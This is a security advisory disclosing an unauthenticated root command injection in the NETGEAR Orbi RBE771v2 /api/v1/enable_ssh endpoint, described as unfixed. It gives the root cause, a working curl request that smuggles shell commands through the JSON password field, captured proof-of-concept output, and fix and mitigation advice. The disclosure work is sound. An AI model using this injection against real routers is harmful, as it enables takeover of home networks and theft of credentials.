

# NETGEAR RBE771v2: Unauthenticated Root Command Injection in `/api/v1/enable_ssh` (password field)

- **Report date**: 2026-10-05
- **Vendor**: NETGEAR, Inc. (PSIRT)
- **Status**: Unfixed in the latest released firmware (V12.1.7.23, released 2026-09-02)

---

## Summary

NETGEAR Orbi RBE771v2 routers running the latest released firmware expose an unauthenticated remote command injection vulnerability in the SeAL REST endpoint `POST /api/v1/enable_ssh`. The attacker-controlled `password` field of the JSON body is concatenated **unsanitized** into a shell command that is executed through `io.popen()` (`run_shell()` in `seal-io.lua`) as **root** — and this execution happens **before** the credential comparison, so the injection fires regardless of whether the supplied password is correct. The route belongs to the ungated "router2" group of `rest.lua`: any client that can reach TCP 80/443 needs no session, token, or header. The endpoint's standard answer to failed authentication is `HTTP 418 I'm a teapot`; by the time that response is sent, the injected command has already run. Any host on the LAN gains immediate root command execution on the router; if remote management is enabled (WAN :80/:443 reachable), this becomes an **internet-facing unauthenticated RCE**.

## Affected Products, Models and Versions

| Product | Hardware / Platform | Firmware | Status |
|---|---|---|---|
| NETGEAR Orbi RBE771v2 | SoC Qualcomm IPQ5332, ARM 32-bit armhf + musl, OpenWrt 23.05 + Netgear ACOS, kernel 5.4.213 | `RBE771v2-V12.1.7.23.chk` (MD5 `57fc1d41e7fb24df04e15d6bf10896f2`, latest release as of this report) | **Verified vulnerable** |

## Technical Details (Root Cause)

**Request path (all components are the stock firmware binaries):**

```
client → lighttpd 1.4.82 (front, :80/:443, no auth module)
       → ^/api/ → mod_proxy → 127.0.0.1:16667
       → lighttpd_root (runs as root, loopback only)
       → /www-seal/rest/rest.lua (Lua 5.1 bytecode, executed as root CGI)
```

1. **Ungated route.** A full disassembly of `rest.lua` (Lua 5.1.5 LNUM variant; dumped with the custom disassembler `tools/lua51_dis.py` because `unluac` rejects the variant) shows the routes are split into two groups. The **router2** group — `/services/:name/webapp`, `/services/:name/validateToken`, and **`/enable_ssh`** — is executed **unconditionally for any client** that can reach the front lighttpd. (The router1 group is the one gated by `debugEnabled`/`localAccess`; it does not apply here.)

2. **Vulnerable data flow.** `rest.lua` f9 → `usr/share/lua/seal-development.lua` `enable_ssh()` → `verify_admin(username, password)`. Disassembly of `verify_admin`:

   ```
   -- K3 = 'echo -n '
   -- K4 = " | sha256sum | cut -d ' ' -f0"
   GETUPVAL R4, run_shell
   LOADK    R5, K3          ; 'echo -n '
   MOVE     R6, R1          ; R1 = password (attacker-controlled)
   LOADK    R7, K4          ; " | sha256sum | cut -d ' ' -f0"
   CONCAT   R5, R5..R7
   CALL     R4              ; run_shell('echo -n '..password.." | sha256sum | cut -d ' ' -f0")
   ```

   `run_shell()` is `io.popen()` (defined in `seal-io.lua`); the string is interpreted by `/bin/sh` with **uid=0**. The `password` JSON field is embedded in the command with **no quoting and no sanitization whatsoever**.

3. **Injection fires before authentication.** This `io.popen()` computes the digest that is *subsequently* compared against the stored admin digest. The shell command therefore executes **before** the credential check, and its side effects are independent of the authentication outcome. Wrong password → `HTTP/1.1 418 I'm a teapot` (the endpoint's standard auth-failure answer) — but the injected command has already run as root.

4. **The failure counter is not a mitigation.** `enable_ssh()` maintains `/tmp/enable-ssh-attempt-counter` (lockout after 5 failures), but the counter is incremented **after** `verify_admin()` — i.e. after the injection has already executed — and on a real device `/tmp` is tmpfs, reset at every reboot. It does not reduce the impact. (It was observed in testing that once the counter reaches 5 the endpoint short-circuits to 418 *without* calling `verify_admin()`; an attacker who needs more attempts on an emulated/long-running instance would simply be facing a per-boot budget of 5 — more than sufficient, one request is enough.)

5. **Additional (post-auth) surface in the same handler.** On successful `verify_admin()`, the `pubkey` field is concatenated into `"/bin/echo '"..pubkey.."' > /etc/dropbear/authorized_keys"` and passed to `os.execute` — the same class of bug, but gated by knowledge of the admin password, so it is secondary to this report.

6. **Payload charset.** Because V1's injection rides in the JSON **POST body**, which the front `mod_proxy` forwards byte-for-byte, the full shell character set is available (`; > / space | & $ ( ) ...`). (The `> | space ` { } < " \ [ ] ^` re-encoding performed by lighttpd 1.4.82 `mod_proxy` only affects the **request-target** — i.e. path-based injection vectors such as V2/V3 in this firmware — not request bodies.)

**Evidence level: VALIDATED** — reproduced over the real HTTP chain with the unmodified released firmware in full emulation on ARM 32-bit (chroot + qemu-arm-static, running the firmware's own lighttpd front on :8080 → proxy → lighttpd_root on :16667 → real `rest.lua`, plus the ACOS httpd stack on :9000), with real HTTP requests issued from the Windows host. The injected `id` command wrote a root-owned marker file containing `uid=0(root) gid=0(root) groups=0(root)`.

## Proof of Concept

Run the attached one-click exploit (`exploit_v1_enable_ssh.py`, Python 3 standard library only). Actual output captured against the emulated target (front lighttpd on port 8080 in the emulation VM; on a real device use the default port 80):

```bash
$ python3 exploit_v1_enable_ssh.py 192.168.135.137 --port 8080
[*] target : http://192.168.135.137:8080/api/v1/enable_ssh
[*] payload: POST http://192.168.135.137:8080/api/v1/enable_ssh
[*] body   : {"username": "x", "password": "x;id>/www-seal/rest/@v1_proof;id>/www/@v1_proof;echo -n x", "pubkey": ""}
[+] response: HTTP 418 "I'm a teapot"
[*] HTTP 418 is the endpoint's standard auth-failure answer - the injection runs BEFORE the credential check, so this is expected.
[*] canonical marker (root, rest.lua CGI cwd): /www-seal/rest/@v1_proof
[*] HTTP read-back: GET http://192.168.135.137:8080/@v1_proof
[+] read-back: HTTP 200 'uid=0(root) gid=0(root) groups=0(root)'
[+] CONFIRMED: unauthenticated command injection executed as uid=0(root) via /api/v1/enable_ssh
```

The marker file on the target, written by the injected `id` command running as root (checked over SSH inside the emulation; path inside the device rootfs is `/www-seal/rest/@v1_proof`):

```bash
$ ssh iot "ls -l /home/iotsec-zone/rbe771_work/www-seal/rest/@v1_proof /home/iotsec-zone/rbe771_work/www/@v1_proof; cat /home/iotsec-zone/rbe771_work/www-seal/rest/@v1_proof"
-rw-r--r-- 1 root root 39 10月  5 16:04 /home/iotsec-zone/rbe771_work/www-seal/rest/@v1_proof
-rw-r--r-- 1 root root 39 10月  5 16:04 /home/iotsec-zone/rbe771_work/www/@v1_proof
uid=0(root) gid=0(root) groups=0(root)
```



## Reproduction Steps

Prerequisites: any host on the router's LAN (or on the internet if remote management is enabled). No credentials, session, or special headers are required.

1. Send a single POST request with the injection in the `password` field (substitute the router's address; port 80 on a real device):

   ```bash
   $ curl -sS -w "\nHTTP %{http_code}\n" -X POST 'http://192.168.135.137:8080/api/v1/enable_ssh' \
       -H 'Content-Type: application/json' \
       -d '{"username":"x","password":"x;id>/www-seal/rest/@v1_proof;echo -n x","pubkey":""}'
   I'm a teapot

   HTTP 418
   ```

2. Read back the marker written by the injected command (emulation chroot path shown; on the device the path is `/www-seal/rest/@v1_proof`):

   ```bash
   $ ssh iot "cat /home/iotsec-zone/rbe771_work/www-seal/rest/@v1_proof"
   uid=0(root) gid=0(root) groups=0(root)
   ```

Note on the emulation environment: the counter file `/tmp/enable-ssh-attempt-counter` (tmpfs on real hardware, reset at each boot) was cleared before the run to reproduce fresh-boot state; after 5 failed attempts the endpoint short-circuits to 418 without reaching `verify_admin()` until reboot.

**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | An administrative endpoint that changes SSH state requires a valid admin session before doing any work; user input is never interpolated into a shell command. |
| **Actual** | `/api/v1/enable_ssh` performs zero authentication; the `password` field is concatenated raw into a root `/bin/sh` command (`echo -n '..password.." | sha256sum | cut -d ' ' -f0"`) that executes **before** the credential comparison. One unauthenticated POST yields arbitrary command execution as `uid=0`. The 418 response is the endpoint's normal auth-failure answer and does not indicate the injection failed. |

## Security Impact

- **Unauthenticated root RCE from the LAN**: any device on the network (including compromised IoT gadgets and wireless guests) can execute arbitrary commands as `uid=0` with a single HTTP POST — read/write any file, steal configuration (Wi-Fi credentials, PPPoE secrets), persist malware via startup entries, or brick the device.
- **Traffic manipulation**: control of dnsmasq/firewall rules enables DNS/DHCP poisoning and TLS-interception infrastructure against every LAN client.
- **Internet-facing when remote management is on**: if the user enables remote management (WAN :80/443), the same request works from the internet — full unauthenticated remote takeover.
- **Pivot/foothold**: the router becomes a trusted, always-on bridgehead into the internal network.
- The same root execution context can also tamper with software-package state and SeAL/LXC services hosted on the device.

## Recommended Fix

1. **Stop interpolating user input into shell strings.** Compute the password digest without a shell (e.g. a Lua-side SHA-256 implementation or reading the value via stdin/argv), or at minimum apply strict single-quote escaping plus a whitelist such as `^[%w%p]-$` validation that rejects shell metacharacters.
2. **Gate the route.** `/enable_ssh` is a debug/administrative operation: remove it from the ungated router2 group and require a validated admin session before any processing of the request body.
3. **Enforce the rate limit *before* work, persistently.** Check and increment the attempt counter before invoking `verify_admin()`, and persist it across reboots (nvram) so a reboot does not reset the budget.
4. **Audit sibling endpoints** built on `run_shell()`/`os.execute()` in `seal-*.lua` (e.g. the `pubkey` → `/etc/dropbear/authorized_keys` concatenation in the same handler) and sibling models sharing the SeAL/ACOS codebase.

## Mitigation for End Users (until a fix ships)

No GUI switch disables this endpoint. Keep untrusted devices off the LAN/WLAN, disable remote management (WAN access to :80/:443), and where possible firewall LAN clients from the router's web ports except designated admin hosts. Rebooting does not remove the vulnerability but does reset the on-device attempt counter state.

## Attachments

- `exploit_v1_enable_ssh.py` — one-click PoC/exploit (proof mode writes a root-owned marker and reads it back over HTTP; `--cmd` mode delivers an arbitrary command).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】

---
